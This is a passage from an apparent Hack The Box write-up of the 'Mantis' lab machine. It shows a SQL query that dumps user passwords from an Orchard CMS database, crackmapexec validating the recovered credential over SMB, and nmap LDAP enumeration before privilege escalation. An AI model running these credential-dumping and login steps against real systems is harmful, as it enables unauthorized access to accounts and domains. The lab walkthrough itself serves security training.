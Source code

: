 ```
LastLoginUtc                                                                                                                       

LastLogoutUtc

SQL> Select Username,Password FROM blog_Orchard_Users_UserPartRecord;

admin                                                                                                                                                                                                                                                             AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==                                                                                                                                                                                              

James                                                                                                                                                                                                                                                             J@m3s_P@ssW0rd!
```
{% endcode %}

Great! Now we have this user. However, this user doesn't seem to be part of any remote management group, but his credentials are valid.

```
$ crackmapexec smb 10.129.77.179 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.129.77.179   445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.77.179   445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

## Privilege Escalation

### Bloodhound --> Deadend

I initially tried to gather more information about the domain via `bloodhound` to see if this user had privileges over other users.

First we need to find the domain name by scanning port 389.&#x20;

{% code overflow="wrap" %}
```
$ sudo nmap -p 389 -sC -sV -O -T4 10.129.77.179        
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-22 01:34 +08
Nmap scan report for htb.local (10.129.77.179)
Host is up (0.0075s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
```
{% endcode %}
